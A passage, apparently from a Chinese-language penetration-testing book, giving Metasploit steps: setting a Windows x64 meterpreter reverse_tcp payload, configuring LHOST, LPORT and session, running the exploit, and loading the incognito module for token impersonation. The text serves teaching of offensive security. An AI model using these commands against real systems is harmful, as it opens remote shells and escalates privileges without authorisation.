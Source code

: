     `set payload /windows/x64/meterpreter/reverse_tcp`

    如下图所示，你需要修改的模块选项是 `LHOST`、`LPORT` 和 `SESSION` ID。此外，模块选项还应反映出我们在前一步中指定的默认 shell：

    ![图 6.7 – 模块选项和默认负载    ](img/B17389_06_007.jpg)

    图 6.7 – 模块选项和默认有效负载

1.  配置模块选项后，我们可以通过运行以下命令来执行漏洞模块：

    `run`

    如果漏洞成功，您应该会看到如下截图所示的新`meterpreter`会话：

    ![图 6.8 – 漏洞成功](img/B17389_06_008.jpg)

    图 6.8 – 漏洞成功

1.  下一步是执行模拟过程，可以使用内置的`meterpreter`模块`incognito`来自动化。可以通过运行以下命令来加载该模块：

